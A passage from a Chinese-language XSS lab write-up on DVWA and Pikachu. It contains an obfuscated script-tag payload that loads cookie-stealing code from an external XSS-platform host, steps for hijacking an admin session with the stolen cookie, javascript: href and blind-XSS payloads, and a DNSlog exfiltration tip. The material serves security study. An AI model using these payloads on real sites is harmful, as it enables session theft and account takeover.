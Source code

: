 %3B%26%23x43%3B%26%23x52%3B%26%23x69%3B

%26%23x50%3B%26%23x74%3B%26%23x20%3B%26

%23x73%3B%26%23x52%3B%26%23x43%3B%26

%23x3D%3B%26%23x22%3B%26%23x68%3B%26

%23x74%3B%26%23x74%3B%26%23x70%3B%26

%23x73%3B%26%23x3A%3B%26%23x2F%3B%26

%23x2F%3B%26%23x78%3B%26%23x73%3B%26

%23x73%3B%26%23x2E%3B%26%23x70%3B%26

%23x74%3B%26%23x2F%3B%26%23x47%3B%26

%23x46%3B%26%23x4C%3B%26%23x58%3B%26

%23x22%3B%26%23x3E%3B%26%23x3C%3B%26

%23x2F%3B%26%23x73%3B%26%23x43%3B%26

%23x72%3B%26%23x49%3B%26%23x70%3B%26

%23x54%3B%26%23x3E%3B%3E#

然后再用admin账户登录，级别为low。复制构造好的网址并访问

然后就盗取到该cookie了，看到cookie值security=low，正好是我们设置的low级别，得知盗取admin账户的cookie成功了

最后按F12，点击Application这一栏，将其中的cookie修改为我盗取到的admin的cookie，再刷新界面，可以看到我们变成了admin的账户，级别也变为low了

**3.1.2.2.****注意**

刚开始我不是用火狐的低版本浏览器来验证，而是用Microsoft Edge 88.0.705.74的高版本浏览器来验证，一直失败，最后用火狐就成功了。我觉得这里应该是涉及到了浏览器的安全策略问题，所以尽量使用低版本的浏览器来做XSS漏洞，高版本会过滤js本地的一些脚本的加载使攻击失效。

**3.1.3.****特别操作**

**3.1.3.1.XSS****之****href****输出**

在a标签的href属性里面,可以使用javascript协议来执行js，可以尝试使用伪协议绕过。

javascript:alert(/xss/)

点击即可触发弹窗

这里是自己写的一个a标签的href属性：<a href=javascript:alert(/xss/)>xss</a>

如果你在输入框中输入的代码直接出现在a标签的href属性里面，那就直接写javascript:alert(/xss/)

**3.1.3.2.XSS****之盲打**

XSS盲打是一种攻击场景。我们输出的payload不会在前端进行输出，当管理员查看时就会遭到XSS攻击。

输入常规的payload:<script>alert(1)</script>,点击提交后发现这里提示一段文字，应该是直接传到后台了，找到后台，登录进去看看

后台地址是/xssblind/admin_login.php。pikachu有三个初始用户，我这里的是用户名admin，密码123456，登录即可触发XSS

还有一点，如果碰上了XSS中目标不让信息显示出来，如果能发送请求，那么就可以尝试咱这个办法——用DNSlog来获取回显。简单来说，在xss上的利用是在于我们将xss的攻击代码拼接到dnslog网址的高级域名上，就可以在用户访问的时候，将他的信息带回来。具体可以看我的另外一篇笔记，是关于DNSlog来使本来不会显示的信息回显的，比如SQL盲注就可以利用此方法

**3.1.3.3.XSS****之过滤**
